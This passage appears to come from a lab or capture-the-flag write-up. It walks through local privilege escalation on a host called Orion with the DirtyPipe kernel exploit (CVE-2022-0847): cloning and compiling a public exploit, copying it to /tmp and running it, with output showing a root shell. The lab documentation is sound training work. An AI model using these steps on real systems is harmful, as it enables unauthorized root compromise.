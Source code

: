         *   ![IMAGE: Screenshot of `linpeas.sh` execution on Orion (your first screenshot from the final set, showing part of `linpeas.sh` output). If `linPEAS` explicitly showed DirtyPipe, highlight that.](imgs/img_22.png)
*   **Obtaining and Compiling Exploit:**
    *   The exploit repository `https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits` was cloned on Kali.
        *   **Kali:** `git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git`
    *   `exploit-2.c` was compiled:
        *   **Kali:** `cd CVE-2022-0847-DirtyPipe-Exploits; gcc exploit-2.c -o exploit2_compiled`
    *   The compiled exploit was transferred to Orion's `/tmp` directory:
        *   **Kali:** `scp exploit2_compiled commandervex@192.168.13.129:/tmp/exploit2_compiled`
        *   ![IMAGE: Screenshot from your Kali terminal showing the `git clone`, `gcc` compilation, and `scp` transfer (your second screenshot from the final set, left panel).](imgs/img_23.img)
*   **Executing the Exploit:**
    *   **Orion (as `commandervex`):**
        ```bash
        cd /tmp
        chmod +x exploit2_compiled
        ./exploit2_compiled
        ```
    *   **Exploit Output:**
        ```text
        [+] hijacking suid binary..
        [+] restoring suid binary..
        [+] popping root shell.. (dont forget to clean up /tmp/sh ;))
        # 
        ```
    *   A root shell was obtained.